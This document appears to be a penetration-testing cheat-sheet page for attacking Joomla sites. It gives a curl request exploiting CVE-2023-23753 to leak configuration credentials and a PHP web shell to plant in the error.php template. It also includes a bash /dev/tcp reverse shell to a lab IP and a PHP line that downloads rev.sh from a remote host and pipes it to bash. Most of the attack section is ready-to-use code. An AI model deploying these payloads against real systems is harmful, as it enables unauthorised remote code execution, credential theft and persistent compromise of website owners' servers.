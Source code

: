 ```yaml
---
icon: folder-grid
description: Content Management System
---
```


# Joomla

{% hint style="info" %}
### <mark style="color:purple;">Documentation</mark>
{% endhint %}

{% embed url="https://docs.joomla.org/" %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

### <mark style="color:purple;">Find the Version</mark>:

* <mark style="color:orange;">**`1.0 to 1.5`**</mark> <mark style="color:purple;">**->**</mark>**&#x20;**<mark style="color:red;">**`includes/version.php`**</mark>&#x20;
* <mark style="color:orange;">**`1.6 to 3.x`**</mark>**&#x20;**<mark style="color:purple;">**->**</mark>  <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>
* <mark style="color:orange;">**`4.x`**</mark> <mark style="color:purple;">-></mark> <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>

<mark style="color:orange;">**`Recommended`**</mark><mark style="color:purple;">: Use the admin interface or the</mark> <mark style="color:orange;">**`Joomla\CMS\Version`**</mark> <mark style="color:purple;">class programmatically.</mark>

***
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`CVE-2023-23753`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">-</mark> <mark style="color:red;">`4.0.0 to 4.2.7`</mark>

* <mark style="color:purple;">Read about it</mark> [<mark style="color:orange;">**`here`**</mark>](https://vulncheck.com/blog/joomla-for-rce)
* <mark style="color:purple;">Credentials leak in plain text here:</mark>

{% code overflow="wrap" %}
```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Template Manipulation</mark>

* <mark style="color:purple;">Navigate to</mark> <mark style="color:orange;">**`site templates`**</mark>
* <mark style="color:purple;">Look for writable files (Normally</mark> <mark style="color:orange;">**`error.php`**</mark> <mark style="color:purple;">is a good one to look at)</mark>
* <mark style="color:purple;">Add this code at the beginning of the file:</mark>

{% code overflow="wrap" %}
```php
if (isset($_REQUEST['tokyo'])) {
  system($_REQUEST['tokyo']);
  die();
}
```
{% endcode %}

* <mark style="color:purple;">Visiting a page that doesn't exist will raise a error page, if the argument passed is</mark> <mark style="color:orange;">**`tokyo`**</mark><mark style="color:purple;">, it will be run with</mark> <mark style="color:orange;">**`system`**</mark> <mark style="color:purple;">; allowing to code execution:</mark>

```url
/nonexistentsite?tokyo=id
```

* <mark style="color:purple;">From here you can spawn a</mark> <mark style="color:orange;">**`reverse shell`**</mark> <mark style="color:purple;">by passing it as an argument:</mark>

```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.6/4444+0>%261'
```

***

* <mark style="color:purple;">Alternatively, you can write the reverse shell directly on the template:</mark>

```php
<?php system("curl 10.10.14.70:8080/rev.sh|bash"); ?>
```

* <mark style="color:purple;">Then, create</mark> <mark style="color:orange;">**`rev.sh`**</mark>&#x20;

{% code overflow="wrap" %}
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh
```
{% endcode %}

* <mark style="color:purple;">Setup a python web server, get your listener ready and trigger the</mark> <mark style="color:orange;">**`error.php`**</mark>
{% endhint %}

